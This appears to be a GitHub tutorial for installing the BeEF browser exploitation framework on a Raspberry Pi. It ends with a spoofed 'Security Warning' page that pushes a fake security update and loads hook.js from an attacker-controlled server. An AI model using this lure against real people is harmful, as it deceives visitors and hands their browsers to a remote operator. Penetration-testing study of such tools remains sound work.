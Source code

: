 # BeEF on Raspberry PI

BeEF (_Browser Exploitation Framework_) is an penetration tool focused on exploiting vulnerabilities inside web browsers.

## Objective

The aim of this tutorial is to set up BeEF on Raspberry PI and to show you where you could place the `hook.js`.

## Install needed and/or optional packages

Install (_or ensure they are installed_) following packages.

```shell
# update system (optional)
$ sudo apt update -y && sudo apt upgrade -y

# install optional packages (optional)
$ sudo apt install -y vim

# install needed packages
$ sudo apt install -y ruby-full curl git build-essential openssl libreadline6-dev zlib1g zlib1g-dev libssl-dev libyaml-dev libsqlite3-0 libsqlite3-dev sqlite3 libxml2-dev libxslt1-dev autoconf libc6-dev libncurses5-dev automake libtool bison nodejs libcurl4-openssl-dev
```

## Install BeEF

```shell
# changer into home directory
$ cd ~

# clone git repository
$ git clone https://github.com/beefproject/beef.git

# change into cloned repository directory
$ cd beef/

# modify install script
$ vim install
```

On line 106 are two packages which are not available `gcc-9-base` and `libgcc-9-dev`. You must remove them from the file `/home/pi/beef/install`! If you have already installed all packages, you can comment this line.

```shell
...
if [ "${Distro}" = "Debian" ] || [ "${Distro}" = "Kali" ]; then
   sudo apt-get update
   # sudo apt-get install curl git build-essential openssl libreadline6-dev zlib1g zlib1g-dev libssl-dev libyaml-dev libsqlite3-0 libsqlite3-dev sqlite3 libxml2-dev libxslt1-dev autoconf libc6-dev libncurses5-dev automake libtool bison nodejs libcurl4-openssl-dev gcc-9-base libgcc-9-dev
...
```

To save a lot of time, you can add `--no-document` into commmand `sudo gem${RUBYSUFFIX} update --system` on line 205.

## BeEF configuration

Just change username and password on `/home/pi/beef/config.yaml`.

```shell
# modify config.yaml
$ vim config.yaml
```

Read this [Wiki](https://github.com/beefproject/beef/wiki/Configuration) for more informations.

## Start BeEF

```shell
# start BeEF
$ ./beef
```

## Prepare the spoofed domain page

Content of file `/var/www/html/index.html`.

```html
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>Security Warning - with security update</title>
  <link type="text/css" rel="stylesheet" href="styles/style.css">
</head>
<body>
  <div id="warning">
    <h1>Security Warning</h1>
    <p>We have detected a serious security problem,<br /> 
       please install now the free security update!</p>
  </div>
  <div id="patch">
    <span><!-- placeholder security update --></span>
  </div>
<script type="text/javascript" src="scripts/script.js"></script>
<script src="http://192.168.0.1:3000/hook.js"></script>
</body>
</html>
```

Finally open in your browser the URL `http://192.168.0.1:3000/ui/panel` and login with your credentials (_you have modified in config.yaml_).

_Note: If you follow the output inside the terminal, you will see that some other packages are required. Install them if you need them (maybe in second terminal session) and execute the BeEF command again._

## Additional

If the client has JavaScript disabled, this attack will not work.

[Go Back](./README.md)

